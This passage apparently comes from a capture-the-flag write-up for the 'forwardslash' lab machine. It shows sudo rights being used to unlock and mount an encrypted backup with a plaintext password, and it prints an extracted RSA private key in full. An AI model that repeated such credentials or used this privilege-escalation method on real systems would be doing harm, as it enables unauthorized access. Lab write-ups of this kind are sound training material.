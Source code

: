So lets explore `/var/backups/recovery`:
```
pain@forwardslash:~/encryptorinator$ ls /var/backups/recovery/
encrypted_backup.img
```

`encrypted_backup.img` is a LUKS encrypted file:
```
pain@forwardslash:/var/backups/recovery$ file encrypted_backup.img
encrypted_backup.img: LUKS encrypted file, ver 1 [aes, xts-plain64, sha256] UUID: f2a0906a-c412-48db-8c18-3b72443c1bdf
```

And we are allowed to run `cryptsetup` as root:
```
pain@forwardslash:/var/backups/recovery$ sudo -l
Matching Defaults entries for pain on forwardslash:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pain may run the following commands on forwardslash:
    (root) NOPASSWD: /sbin/cryptsetup luksOpen *
    (root) NOPASSWD: /bin/mount /dev/mapper/backup ./mnt/
    (root) NOPASSWD: /bin/umount ./mnt/
```

Let's unlock the LUKS volume using `cB!6%sdH8Lj^@Y*$C2cf`, the password found
previously in `note.txt`:
```
pain@forwardslash:/var/backups/recovery$ sudo /sbin/cryptsetup luksOpen encrypted_backup.img backup
Enter passphrase for encrypted_backup.img:
```

And after mounting it with `sudo mount /dev/mapper/backup ./mnt/`, lets inspect
it's content:
```
pain@forwardslash:/$ ls mnt
id_rsa
```

And here's the key:
```
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA9i/r8VGof1vpIV6rhNE9hZfBDd3u6S16uNYqLn+xFgZEQBZK
RKh+WDykv/gukvUSauxWJndPq3F1Ck0xbcGQu6+1OBYb+fQ0B8raCRjwtwYF4gaf
yLFcOS111mKmUIB9qR1wDsmKRbtWPPPvgs2ruafgeiHujIEkiUUk9f3WTNqUsPQc
u2AG//ZCiqKWcWn0CcC2EhWsRQhLOvh3pGfv4gg0Gg/VNNiMPjDAYnr4iVg4XyEu
NWS2x9PtPasWsWRPLMEPtzLhJOnHE3iVJuTnFFhp2T6CtmZui4TJH3pij6wYYis9
MqzTmFwNzzx2HKS2tE2ty2c1CcW+F3GS/rn0EQIDAQABAoIBAQCPfjkg7D6xFSpa
V+rTPH6GeoB9C6mwYeDREYt+lNDsDHUFgbiCMk+KMLa6afcDkzLL/brtKsfWHwhg
G8Q+u/8XVn/jFAf0deFJ1XOmr9HGbA1LxB6oBLDDZvrzHYbhDzOvOchR5ijhIiNO
3cPx0t1QFkiiB1sarD9Wf2Xet7iMDArJI94G7yfnfUegtC5y38liJdb2TBXwvIZC
vROXZiQdmWCPEmwuE0aDj4HqmJvnIx9P4EAcTWuY0LdUU3zZcFgYlXiYT0xg2N1p
MIrAjjhgrQ3A2kXyxh9pzxsFlvIaSfxAvsL8LQy2Osl+i80WaORykmyFy5rmNLQD
Ih0cizb9AoGBAP2+PD2nV8y20kF6U0+JlwMG7WbV/rDF6+kVn0M2sfQKiAIUK3Wn
5YCeGARrMdZr4fidTN7koke02M4enSHEdZRTW2jRXlKfYHqSoVzLggnKVU/eghQs
V4gv6+cc787HojtuU7Ee66eWj0VSr0PXjFInzdSdmnd93oDZPzwF8QUnAoGBAPhg
e1VaHG89E4YWNxbfr739t5qPuizPJY7fIBOv9Z0G+P5KCtHJA5uxpELrF3hQjJU8
6Orz/0C+TxmlTGVOvkQWij4GC9rcOMaP03zXamQTSGNROM+S1I9UUoQBrwe2nQeh
i2B/AlO4PrOHJtfSXIzsedmDNLoMqO5/n/xAqLAHAoGATnv8CBntt11JFYWvpSdq
tT38SlWgjK77dEIC2/hb/J8RSItSkfbXrvu3dA5wAOGnqI2HDF5tr35JnR+s/JfW
woUx/e7cnPO9FMyr6pbr5vlVf/nUBEde37nq3rZ9mlj3XiiW7G8i9thEAm471eEi
/vpe2QfSkmk1XGdV/svbq/sCgYAZ6FZ1DLUylThYIDEW3bZDJxfjs2JEEkdko7mA
1DXWb0fBno+KWmFZ+CmeIU+NaTmAx520BEd3xWIS1r8lQhVunLtGxPKvnZD+hToW
J5IdZjWCxpIadMJfQPhqdJKBR3cRuLQFGLpxaSKBL3PJx1OID5KWMa1qSq/EUOOr
OENgOQKBgD/mYgPSmbqpNZI0/B+6ua9kQJAH6JS44v+yFkHfNTW0M7UIjU7wkGQw
ddMNjhpwVZ3//G6UhWSojUScQTERANt8R+J6dR0YfPzHnsDIoRc7IABQmxxygXDo
ZoYDzlPAlwJmoPQXauRl1CgjlyHrVUTfS0AkQH2ZbqvK5/Metq8o
```